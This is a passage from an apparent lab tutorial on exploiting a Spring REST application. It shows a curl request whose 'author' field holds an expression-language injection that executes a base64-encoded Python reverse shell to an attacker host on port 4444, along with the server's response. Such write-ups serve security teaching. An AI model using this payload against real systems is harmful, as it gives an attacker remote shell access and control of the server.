 <p align="justify">
Now lets send the payload to the vulnerable application in order to get a shell
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
root@kali:/home/kali# curl -X POST  http://192.168.201.138:8080/books -H "Content-type:application/json" -d "{\"name\":\"Spring REST tutorials\", \"author\":\"\${''.getClass().forName('java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(''.getClass().forName('java.lang.Runtime')).exec('python -c exec(\\\"aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMjAxLjEiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOw==\\\".decode(\\\"base64\\\"))')}\",\"price\":\"9.99\"}"

{
    "timestamp": "2021-11-18T16:52:22.366+0000",
    "status": 400,
    "errors": ["Author Process[pid=68571, exitValue=\"not exited\"] is not allowed to be added. Only three authors are allowed"]
}

</pre>

<p align="justify">
When the above command executes succesfully, we will have a connection to the attacking machine. 
</p>

<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="https://xen0vas.github.io/assets/images/2021/09/shell.gif" alt="reverse tcp shell connection"/>


